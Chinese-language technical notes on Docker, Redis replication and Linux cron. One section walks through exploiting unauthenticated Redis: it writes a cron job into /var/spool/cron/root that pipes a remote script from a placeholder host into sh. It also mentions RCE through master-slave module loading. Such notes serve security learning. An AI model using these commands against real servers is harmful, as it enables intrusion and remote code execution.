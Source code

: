 - Docker 不是虚拟机，容器中的应用都应该以前台执行，而不是像虚拟机、物理机里面那样，用 systemd 去启动后台服务，容器内没有后台服务的概念。对于容器而言，其启动程序就是容器应用进程，容器就是为了主进程而存在的，主进程退出，容器就失去了存在的意义，从而退出，其它辅助进程不是它需要关心的东西。

- Redis是一个使用ANSI C编写的开源、支持网络、基于内存、可选持久性的键值对存储数据库。虽然 Redi s 的读写速度都非常快，但如果当把数据都存储在单个Redis的实例中，供客户端去读取的话， 那么很有可能会产生服务器难以承受的读压力。为了缓解这样的压力，主从复制这样的机制出现了，主从模式就是指使用一个redis实例作为主机(master)，其他实例都作为从机(slave)，主机只负责写入数据，很多的从机负责读，这就很想我们常常说的 CDN 负载均衡的功能。

- redis 的攻击主要是利用 redis 的持久化存储 RDB 或者 AOF(默认不开启)，所谓持久化就是一种快照机制，用来后期恢复数据。比如 RDB 可以在一定的条件下将当前内存的数存储进一个 dump.rdb 文件中，如果下次想恢复这个数据的话，就需要将这个文件放在 redis 的快照保存目录下，替换当前的 dump.rdb 再次重启这样就能恢复原始的数据了。常见的redis 未授权RCE就是利用rdb。

  ```
  (1)修改 redis 的 rdb 文件的存放路径为 root 用户的 crontab 配置文件
  设置 dir 到定时任务目录
  config set dir "/var/spool/cron"
  设置持 rdb 文件名为root
  config set dbfilename root
  (2)使用 FLUSHALL 进行清除数据库
  127.0.0.1:6379> flushall  
  OK
  这一步主要是想清除原始 root 文件的内容，也是为了避免不必要的格式错误
  (3)在 redis 中写入我们的 cron 语句
  127.0.0.1:6379> set test "\n*/10 * * * *  curl -fsSL https://xxx.xxx.xxx.xxx/xxx/xx | sh\n"
  OK
  这里的换行符是为了实现写入时的格式良好，因为 cron 读取的时候是一行一行读取的，遇到格式不正确则丢弃
  (4)强行触发 rdb 更新
  127.0.0.1:6379> save
  至此我们的 cron 的数据就写入到了 root 用户的 cron 文件夹中了
  ```

- Redis从4.0版本开始加入了对外部扩展模块的支持。外部扩展模块可以实现新的Redis命令，新的Redis数据结构，总之基本上可以做到所有Redis内核可以做的事情。**模块的加载方式**，一种是在配置文件redis.conf中使用loadmodule /path/to/mymodule.so在Redis启动时加载。另一种方式在运行时使用命令MODULE LOAD /path/to/mymodule.so加载。加载的模块可以使用命令MODULE LIST查看，使用MODULE UNLOAD mymodule卸载。加载了模块以后我们就能直接执行我们在模块中自定义的命令了，这是不是有点像 MYSQL 的 UDF(其实就是一个道理)。**利用 Redis 主从复制来 RCE**。[1]([https://www.k0rz3n.com/2019/07/29/%E5%AF%B9%E4%B8%80%E6%AC%A1%20redis%20%E6%9C%AA%E6%8E%88%E6%9D%83%E5%86%99%E5%85%A5%E6%94%BB%E5%87%BB%E7%9A%84%E5%88%86%E6%9E%90%E4%BB%A5%E5%8F%8A%20redis%204.x%20RCE%20%E5%AD%A6%E4%B9%A0/](https://www.k0rz3n.com/2019/07/29/对一次 redis 未授权写入攻击的分析以及 redis 4.x RCE 学习/))

-  /etc/crontab 及 /var/spool/cron/\$USER 中定义定时任务的区别：/etc/crontab 只有root用户可以使用，使用时需root权限，而且**必须指定运行用户**，才会执行，e.g `*/1  *  *  *  *  *  **root** /usr/sbin/ntpdate s1a.time.edu.cn &> /dev/null`；/var/spool/cron/\$USER 所有用户都可以使用，使用crontab -u username -e命令来添加的计划任务就是直接在此文件中添加的，e.g` */1  *  *  *  *  *  /usr/sbin/ntpdate s1a.time.edu.cn &> /dev/null  `。

- linux的变量目录（/var），术语 '**var**' 是 **varible** 的简写。目录中保存的是未知增长和其内容频繁变动的文件（因此名为变化的）。'**/var/spool**' 目录用于保存等待处理的脱机文件，如mail、cron。

- Linux实际环境能用sh绝不用bash、dash等，要将sh作为默认shell，养成习惯。